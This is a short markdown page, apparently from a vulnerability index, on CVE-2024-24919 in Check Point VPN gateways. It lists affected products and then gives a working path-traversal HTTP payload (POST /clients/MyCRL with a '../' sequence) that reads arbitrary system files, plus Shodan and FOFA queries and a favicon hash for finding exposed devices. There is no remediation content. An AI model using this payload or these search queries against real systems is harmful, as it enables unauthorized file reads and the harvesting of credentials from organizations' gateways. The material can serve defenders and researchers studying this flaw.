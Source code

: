 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">

Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

# Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

# Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
